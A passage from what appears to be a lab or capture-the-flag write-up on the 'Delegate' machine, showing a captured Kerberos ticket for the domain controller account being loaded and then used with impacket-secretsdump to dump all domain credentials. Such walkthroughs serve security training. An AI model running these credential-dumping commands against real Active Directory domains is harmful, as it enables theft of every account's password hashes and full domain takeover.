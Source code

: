 So lets export our ticket to the kerberos environment variable for linux.

```bash
export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
klist
```

![image.png](/assets/images/Delegate_VL/image%2036.png)

Lets now dump everything from the domian.

```bash
impacket-secretsdump -k -no-pass dc1.delegate.vl
```

![image.png](/assets/images/Delegate_VL/image%2037.png)
